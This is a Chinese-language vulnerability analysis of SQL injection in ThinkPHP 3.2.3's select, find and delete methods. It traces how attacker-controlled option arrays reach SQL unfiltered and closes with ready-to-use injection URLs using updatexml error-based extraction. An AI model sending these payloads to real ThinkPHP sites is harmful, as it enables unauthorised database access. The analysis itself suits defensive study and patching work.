


Thinkphp 3.2.3 select&find&delete 注入漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

\<= 3.2.3

三、复现过程
------------

### 漏洞分析

通过github上的commit
对比其实可以粗略知道，此次更新主要是在`ThinkPHP/Library/Think/Model.class.php`文件中，其中对于`delete`，`find`，`select`三个函数进行了修改。

`delete`函数

`select`函数

`find`函数

对比三个方法修改的地方都有一个共同点：

> 把外部传进来的`$options`，修改为`$this->options`，同时不再使用`$this->_parseOptions`对于`$options`进行表达式分析。

思考是因为`$options`可控，再经过`_parseOptions`函数之后产生了sql注入。

### 一 select 和 find 函数

以`find`函数为例进行分析（`select`代码类似），该函数可接受一个`$options`参数，作为查询数据的条件。

当`$options`为数字或者字符串类型的时候，直接指定当前查询表的主键作为查询字段：

    if (is_numeric($options) || is_string($options)) {
                $where[$this->getPk()] = $options;
                $options               = array();
                $options['where']      = $where;
    }

同时提供了对复合主键的查询，看到判断：

    if (is_array($options) && (count($options) > 0) && is_array($pk)) {
                // 根据复合主键查询
                ......
            }

要进入复合主键查询代码，需要满足`$options`为数组同时`$pk`主键也要为数组，但这个对于表只设置一个主键的时候不成立。

那么就可以使`$options`为数组，同时找到一个表只有一个主键，就可以绕过两次判断，直接进入`_parseOptions`进行解析。

    if (is_numeric($options) || is_string($options)) {//$options为数组不进入
                $where[$this->getPk()] = $options;
                $options               = array();
                $options['where']      = $where;
            }
            // 根据复合主键查找记录
            $pk = $this->getPk();
            if (is_array($options) && (count($options) > 0) && is_array($pk)) { //$pk不为数组不进入
                ......
            }
            // 总是查找一条记录
            $options['limit'] = 1;
            // 分析表达式
            $options = $this->_parseOptions($options); //解析表达式
            // 判断查询缓存
            .....
            $resultSet = $this->db->select($options); //底层执行

之后跟进`_parseOptions`方法，（分析见代码注释）

    if (is_array($options)) { //当$options为数组的时候与$this->options数组进行整合
                $options = array_merge($this->options, $options);
            }

            if (!isset($options['table'])) {//判断是否设置了table 没设置进这里
                // 自动获取表名
                $options['table'] = $this->getTableName();
                $fields           = $this->fields;
            } else {
                // 指定数据表 则重新获取字段列表 但不支持类型检测
                $fields = $this->getDbFields(); //设置了进这里
            }

            // 数据表别名
            if (!empty($options['alias'])) {//判断是否设置了数据表别名
                $options['table'] .= ' ' . $options['alias']; //注意这里，直接拼接了
            }
            // 记录操作的模型名称
            $options['model'] = $this->name;

            // 字段类型验证
            if (isset($options['where']) && is_array($options['where']) && !empty($fields) && !isset($options['join'])) { //让$optison['where']不为数组或没有设置不进这里
                // 对数组查询条件进行字段类型检查
               ......
            }
            // 查询过后清空sql表达式组装 避免影响下次查询
            $this->options = array();
            // 表达式过滤
            $this->_options_filter($options);
            return $options;

`$options`我们可控，那么就可以控制为数组类型，传入`$options['table']`或`$options['alias']`等等，只要提层不进行过滤都是可行的。

同时我们可以不设置`$options['where']`或者设置`$options['where']`的值为字符串，可绕过字段类型的验证。

可以看到在整个对`$options`的解析中没有过滤，直接返回，跟进到底层`ThinkPHP\Libray\Think\Db\Diver.class.php`，找到`select`方法，继续跟进最后来到`parseSql`方法，对`$options`的值进行替换，解析。

因为`$options['table']`或`$options['alias']`都是由`parseTable`函数进行解析，跟进：

    if (is_array($tables)) {//为数组进
                // 支持别名定义
              ......
            } elseif (is_string($tables)) {//不为数组进
                $tables = array_map(array($this, 'parseKey'), explode(',', $tables));
            }
            return implode(',', $tables);

当我们传入的值不为数组，直接进行解析返回带进查询，没有任何过滤。

同时`$options['where']`也一样，看到`parseWhere`函数

    $whereStr = '';
            if (is_string($where)) {
                // 直接使用字符串条件
                $whereStr = $where; //直接返回了，没有任何过滤
            } else {
                // 使用数组表达式
               ......
            }
            return empty($whereStr) ? '' : ' WHERE ' . $whereStr;

### 二 delete函数

`delete`函数有些不同，主要是在解析完`$options`之后，还对`$options['where']`判断了一下是否为空，需要我们传一下值，使之不为空,从而继续执行删除操作。

    ......
            // 分析表达式
            $options = $this->_parseOptions($options);
            if (empty($options['where'])) { //注意这里，还判断了一下$options['where']是否为空，为空直接返回，不再执行下面的代码。
                // 如果条件为空 不进行删除操作 除非设置 1=1
                return false;
            }
            if (is_array($options['where']) && isset($options['where'][$pk])) {
                $pkValue = $options['where'][$pk];
            }

            if (false === $this->_before_delete($options)) {
                return false;
            }
            $result = $this->db->delete($options);
            if (false !== $result && is_numeric($result)) {
                $data = array();
                if (isset($pkValue)) {
                    $data[$pk] = $pkValue;
                }

                $this->_after_delete($data, $options);
            }
            // 返回删除记录个数
            return $result;

### 漏洞复现

针对`select()` 和`find()`方法
,有很多地方可注，这里主要列举三个`table`，`alias`，`where`，更多还请自行跟踪一下`parseSql`的各个`parseXXX`方法，目测都是可行的，比如`having`,`group`等。

    table：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    alias：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

而`delete()`方法的话同样，这里粗略举三个例子，`table`,`alias`,`where`，但使用`table`和`alias`的时候，同时还必须保证`where`不为空（详细原因后面会说）

    where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    alias: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    table: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1

参考链接
--------

> <https://xz.aliyun.com/t/2629#toc-1>
